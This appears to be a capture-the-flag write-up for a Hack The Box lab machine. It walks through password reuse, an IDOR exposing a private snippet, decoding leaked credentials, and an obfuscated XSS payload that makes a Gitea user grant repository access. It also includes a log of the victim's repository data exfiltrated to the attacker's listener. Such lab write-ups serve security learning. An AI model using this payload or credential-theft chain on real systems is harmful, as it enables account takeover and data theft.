 - Modified `parseUsers.py` to check password reuse

```
letha@snippet.htb have the same password of password123
fredrick@snippet.htb have the same password of password123
gia@snippet.htb have the same password of password123
juliana@snippet.htb have the same password of password123
```

- After logging in, creating a snippet makes one with an ID of 3, skipping 2
- Access to snippet 2 is denied, tried all 4 accounts I got
- Jean's hash is not crackable with `rockyou.txt` wordlist
- Found 2 ways to read the private snippet

1. I can update the status of the snippet from private to public by intercepting a snippet I made, and changing the snippet ID to 2.
2. It's possible to view the snippet data without changing anything, by visiting `http://snippet.htb/snippets/update/2`

- Jean's private snippet:

```bash
curl -XGET http://dev.snippet.htb/api/v1/users/jean/tokens -H 'accept: application/json' -H 'authorization: basic amVhbjpFSG1mYXIxWTdwcEE5TzVUQUlYblluSnBB'
```
```bash
echo 'amVhbjpFSG1mYXIxWTdwcEE5TzVUQUlYblluSnBB' | base64 -d                          
jean:EHmfar1Y7ppA9O5TAIXnYnJpA
```

- Jean's creds: `jean:EHmfar1Y7ppA9O5TAIXnYnJpA`, These creds work on the `Gitea` instance
- After reading the `extension` repo, the `issues` page is vulnerable to XSS, and the following payload worked for me after bypassing all the found filters, this really took a while to craft a working payload!

```html
test<test><img SRC="x" onerror=eval.call`${"eval\x28atob`<BASE64 ENCODED JS>`\x29"}`>
```

- Hitback:

```bash
10.10.11.171 - - [15/Dec/2022 07:11:27] code 404, message File not found
10.10.11.171 - - [15/Dec/2022 07:11:27] "GET /HelloFromXss HTTP/1.1" 404 -

# CHARLIE'S REPOS:
10.10.11.171 - - [15/Dec/2022 07:28:58] "GET /W3siaWQiOjIsIm93bmVyIjp7ImlkIjozLCJsb2dpbiI6ImNoYXJsaWUiLCJmdWxsX25hbWUiOiIiLCJlbWFpbCI6ImNoYXJsaWVAc25pcHBldC5odGIiLCJhdmF0YXJfdXJsIjoiaHR0cDovL2Rldi5zbmlwcGV0Lmh0Yi91c2VyL2F2YXRhci9jaGFybGllLy0xIiwibGFuZ3VhZ2UiOiIiLCJpc19hZG1pbiI6ZmFsc2UsImxhc3RfbG9naW4iOiIwMDAxLTA.....
```

- Found a backup private repo of Charlie's home backup
- To gain a foothold, I did the following steps:

1. Created a new account on the `Gitea` instance.
2. Logged in as `Jean` and added myself as a collaborator on jean's repo.
3. Switched back to my account, abused the XSS vulnerability and made Charlie add my account as a collaborator to his Backups repo
4. Downloaded `backup.tar.gz` from his repo and got an SSH key pair
5. logged on as Charlie using SSH, then switched users `su jean` with his Gitea password nad got user.txt
